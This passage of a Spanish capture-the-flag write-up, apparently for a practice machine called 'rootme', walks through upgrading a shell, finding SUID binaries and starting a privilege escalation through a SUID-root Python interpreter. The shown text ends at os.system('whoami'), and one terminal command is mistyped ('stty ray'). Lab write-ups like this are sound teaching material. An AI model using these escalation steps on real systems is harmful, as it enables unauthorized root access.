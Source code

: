 El primer paso será arreglar la terminal, para ello vamos a ejecutar los siguiente comandos:

- script /dev/null -c bash
- control + z
- stty ray -echo; fg
- reset xterm
- export TERM=xterm
- export SHELL=bash
- stty rows X columns Y (dependiendo de tu stty size)

De esta forma obtenemos una stty más cómoda.

Si buscamos dentro del directorio web no vamos a encontrar nada interesante, no existen bases de datos ni nada por el estilo, por lo tanto, vamos a buscar en el sistema alguna forma de escalar privilegios, el primer paso es buscar algún privilegio especial SUID:
```
www-data@rootme:/var/www$ find / -perm -4000 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/traceroute6.iputils
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/python
/usr/bin/at
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/pkexec
```

Encontramos muchos, sin embargo, nos llama la atención **python**:
```
www-data@rootme:/var/www$ ls -al /usr/bin/python
-rwsr-sr-x 1 root root 3665768 Aug  4  2020 /usr/bin/python
```

Utilizando python, tenemos una forma de escalar privilegios, vamos a iniciar python:
```
www-data@rootme:/var/www$ python
Python 2.7.17 (default, Jul 20 2020, 15:37:01) 
[GCC 7.5.0] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> 
```

Vamos a importar la librería os:
```
www-data@rootme:/var/www$ python
Python 2.7.17 (default, Jul 20 2020, 15:37:01) 
[GCC 7.5.0] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> import os
```
Utilizando esta librería podemos ejectuar comando en el sistema, por ejemplo:
```
www-data@rootme:/var/www$ python
Python 2.7.17 (default, Jul 20 2020, 15:37:01) 
[GCC 7.5.0] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> import os
>>> os.system("whoami")
```